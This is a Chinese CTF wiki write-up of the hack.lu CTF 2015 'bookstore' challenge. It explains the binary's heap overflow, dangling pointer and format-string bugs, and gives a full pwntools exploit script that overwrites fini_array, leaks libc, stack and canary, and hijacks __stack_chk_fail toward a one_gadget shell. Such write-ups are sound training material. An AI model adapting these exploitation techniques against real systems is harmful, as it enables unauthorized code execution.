








# ctf_wiki: hack.lu-ctf2015: bookstore

## 程序功能




程序先 malloc 三个 0x80，前两个分别存储 first order 和 second order，第三个为 dest，用来 strcpy 一些 success message ，并且在最后直接 printf 出来，存在格式化字符串漏洞。

1，2 可以任意修改 first order 和 second order 的数据，且没有长度限制。并且结束后都会 strcpy 一个 success message 到 dest（也就是最开始 malloc 的第三个 0x80 的堆块）

3，4 可以删除 first order 和 second order。

submit 会先 malloc 0x140 ，然后将 first order 和 second order 拼接为如下字符串存储其中：


```c
Order 1: <first order data>
Order 2: <second order data>
```




## 漏洞

- 功能 1，2 存在任意长度写（堆溢出）




- 功能 3，4 的 free 存在 dangling pointer



- 结尾打印 dest 存在格式化字符串



- get_choice 允许向栈上布置数据



如果想控制 `fini_array`,那么需要在栈上布置 `fini_array`,这就需要有能够控制栈上数据的点。因为正常情况下栈上不会存储 `fini_array`。


## 利用

最简单的方式是通过 chunk2 的 overflow 篡改 chunk3 （dest），然后当 main 函数结尾时用格式化字符串漏洞修改 `fini_aray`,使得程序回到 main，即可再次利用。

但是一旦使用 功能 1，2 的 overflow，就会导致 strcpy 向 dest 中拷贝 `Your order is submitted!\n` ，其末尾的 `\x00` 会使得格式化字符串漏洞利用被截断。




因此，需要利用 submit 功能最开始 malloc 0x140 的特性。

首先，利用 chunk1 的 overflow，篡改 chunk2 的 size 为 0x150，然后 free 掉 chunk2。

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./books"
# libc_binary = "./"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
# libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("5: Submit\n",str(idx))

def add1(content):
    opt(1)
    p.sendlineafter("Enter first order:\n",str(content))

def add2(content):
    opt(2)
    p.sendlineafter("Enter second order:\n",str(content))

def free1():
    opt(3)

def free2():
    opt(4)

def submit(payload):
    opt("5" + str(payload))

def opt5():
    opt("5")

fini_array = 0x6011B8 # 0x400830
main_addr = 0x400A39

payload = flat([
    ("%"+str(2617)+"c%13$hn"  + '.%31$p' + ',%28$p,%29$p').ljust(0x80,"a")
    ],
    [
        "b"*8,0x151
        ]
    )
free2()
add1(payload)
gdb.attach(p,"set $h1=0x602000,$h2=0x602090,$h3=0x602120\nb *0x400c8e")
payload2 = '5'+"\0"*7 + p64(fini_array)
p.sendline(payload2)
p.recvuntil("\x20\x20\x00\x2e")

libc_start_main = int(p.recv(14),16)
offset = 0x20840
libc_base = libc_start_main - offset
one_offset = 0x4527a
one_gadget = libc_base + one_offset
log.success("one_gadget addr -> " + hex( one_gadget ))

p.recv(1)
leak_stack = int(p.recv(14),16)
log.success("leak stack addr -> " + hex(leak_stack))
ret1 = leak_stack - 0x118
ret2 = ret1+1

###
target = elf.got["__stack_chk_fail"]
###

p.recv(1)
canary = int(p.recv(18),16)
log.success("canary addr -> " + hex(canary))

free2()
payload = flat([
    ("%12c%14$hhn%88c%15$hhn%5c%16$hhn%38c%17$hhn%82c%18$hhn%8c%19$hhn").ljust(0x80,"a")
    ],
    [
        "b"*8,0x151
        ]
    )
add1(payload)
payload2 = '5'+"\0"*7 + p64(target+1)+ p64(target)+ p64(target+5)+ p64(target+2)+ p64(target+3)+ p64(target+4)
p.sendline(payload2)

p.interactive()
```

由于篡改 `fini_aray` return 回 main 会让栈上的 canary 产生一个偏移，导致 canary 检查不通过。尝试修改 `__stack_chk_fail` 可以控制 `$rip` ，也许选择正确的 `one_gadget` 即可。
